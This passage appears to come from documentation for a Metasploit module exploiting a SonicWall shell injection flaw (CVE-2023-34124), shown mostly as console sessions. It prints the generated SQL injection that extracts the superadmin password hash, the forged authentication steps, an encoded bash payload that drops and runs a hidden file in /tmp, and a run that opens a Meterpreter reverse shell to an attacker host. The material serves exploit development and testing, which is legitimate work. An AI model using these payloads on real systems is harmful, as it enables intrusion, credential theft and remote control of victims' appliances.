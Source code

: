 ```
```

### Linux command

I also added a target for a Linux command. It works by writing the command to
a file then executing the file with the default shell (/bin/sh), which is
basically the same as the Linux dropper.

Like Windows, you won't see the output.

```
msf6 > use exploit/multi/http/sonicwall_shell_injection_cve_2023_34124
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set TARGET 2
TARGET => 2
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set RHOST 10.0.0.89
RHOST => 10.0.0.89
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set CMD 'touch /tmp/iassureyouiexecuted'
CMD => touch /tmp/iassureyouiexecuted
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[+] touch /tmp/iassureyouiexecuted
[*] Attempting to use SQL injection to grab the password hash for the superadmin user...
[*] Generated SQL injection: ' union select (select ID from SGMSDB.DOMAINS limit 1), '', '', '', '', '', (select concat(id, ':', password) from sgmsdb.users where active = '1' order by issuperadmin desc limit 1 offset 0),'', '', '
[*] Generated a token using built-in secret key: /J50ZtvLJddOf5FI4nYdMJcX8IQ=
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Grabbing server hashing token...
[*] Got the server-side token: 32069016763622082907123286615890
[*] Generated client token: 6988cba8e0f09a4289075c1c3f3d84a2
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Linux detected!)
[*] Encoding (Linux) payload
[*] Encoded shell command: bash -c PLUS\=\$\(echo\ -e\ begin-base64\ 755\ a\\\\nKwee\\\\n\=\=\=\=\ \|\ uudecode\ -o-\)\;echo\ -e\ begin-base64\ 755\ /tmp/.whhkjilf\\\\ndG91Y2ggL3RtcC9pYXNzdXJleW91aWV4ZWN1dGVk\\\\n\=\=\=\=\ \|\ uudecode\ \;\ coproc\ /tmp/.whhkjilf\ \;\ rm\ /tmp/.whhkjilf
[*] Attempting to execute the shell injection payload
[+] Payload sent!
```

To validate:

```
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set TARGET 0
TARGET => 0
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set LHOST 10.0.0.227                         
LHOST => 10.0.0.227
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE false
VERBOSE => false
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Linux detected!)
[*] Attempting to execute the shell injection payload
[*] Sending stage (3045380 bytes) to 10.0.0.89
[+] Payload sent!
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.89:43883) at 2023-08-18 14:11:57 -0700
```